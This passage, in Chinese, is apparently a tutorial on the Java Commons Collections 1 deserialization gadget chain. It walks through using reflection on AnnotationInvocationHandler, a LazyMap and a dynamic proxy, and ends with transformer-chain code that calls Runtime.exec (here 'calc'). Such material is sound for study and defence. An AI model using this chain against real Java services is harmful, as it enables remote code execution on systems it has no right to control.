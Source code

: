 这样才能调用到这个get方法

那这个memberValues怎么构造？

<img width="1503" height="330" alt="image" src="https://github.com/user-attachments/assets/0af89ef6-5ece-44c3-a103-e9fc2cdbd8a5" />

查看构造器发现，这个memberValues是可以自己设置的

Payload构造：

反射获取AnnotationInvocationHandler类

<img width="1839" height="589" alt="image" src="https://github.com/user-attachments/assets/457e35fe-3c26-4697-8347-ae1bb4c5574b" />

最后一行第二个参数传入之前构造的lazyMap,
现在这个lazyMap就等同于memberValues了,
现在已经构造好LazyMap中的get方法了,

下一步就是如何去触发这个get方法

在上面说到过，是在invoke方法中触发的memberValues.get(),
而且这个AnnotationInvocationHandler类是一个动态代理处理器类,
如果要调用这个invoke方法，只需要调用任意方法就会执行这个invoke方法,
但是需要借助动态代理来调用，

创建动态代理

<img width="1936" height="684" alt="image" src="https://github.com/user-attachments/assets/33bf282b-a018-4784-aede-1e543ec153da" />

第一个参数是ClassLoader 调用LazyMap中的ClassLoader,
第二个参数是一个Class数组 传入Map.class,
第三个参数，传入前面构造好的o对象,

最后一步就来到了readObject方法中

<img width="1648" height="1002" alt="image" src="https://github.com/user-attachments/assets/011944c0-6539-4f60-9dc3-79d77f17e39f" />

当我们传递将LazyMap为memberValues,
就会调用LazyMap.entrySet(),
在前面的代码中，我们对Map做了动态代理,
只要传递的是Map，那么就会进入到这个类的invoke方法,

<img width="1885" height="780" alt="image" src="https://github.com/user-attachments/assets/25fdd832-1f2c-42cc-8bb0-80ff4b67a190" />


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
